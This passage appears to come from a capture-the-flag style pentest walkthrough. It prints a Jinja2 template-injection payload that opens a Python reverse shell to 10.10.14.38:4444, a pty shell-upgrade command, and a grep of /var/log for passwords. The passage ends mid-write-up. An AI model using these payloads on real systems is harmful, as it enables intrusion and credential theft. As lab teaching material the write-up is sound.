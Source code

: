 Boom, **Reverse Shell** acquired. That moment where you see your terminal spring to life is pure pentester bliss. Almost like a fine wine, take a second and savor it.

![[reverse-shell-success.png]]

As you can see, I tested it by running `pwd` and `id` just to confirm where I ended up and who I’m running as. And with that, we’ve got our **initial foothold** on the box!

Here is the payload one more time just in case you didn't get it to run like I did.
```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.38\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}


```




### **💻 Leveling Up: Making Our Shell Interactive**

Alright, we got our initial foothold, but before we start poking around, let’s fix something that might cause a headache later.

Since this server is running Python, we can use a quick trick to **upgrade our shell** into something more interactive. You technically don’t **need** to do this to complete the box, but trust me, it’ll save you some frustration. Without an interactive shell:

- You won’t see password prompts when running commands like `su` (yeah, I learned that the hard way)
- You can’t use shortcuts like `CTRL+C` or `CTRL+Z` properly
- Some programs just won’t work right

To avoid these issues, run this as soon as you get a shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Now you’ve got a **fully interactive shell**, and you won’t be left wondering why your commands aren’t doing anything.

### **🔍 Digging Through Logs for Credentials**

Now that we’re comfortable, let’s start hunting for useful information. A good place to look is **log files**. Sometimes, admins log in too fast and accidentally type their password where it doesn’t belong, or a system might log authentication failures that reveal useful usernames or passwords.

To check for any low-hanging fruit, run:

```bash
grep -R -o "password" /var/log
```

Here’s what we get:
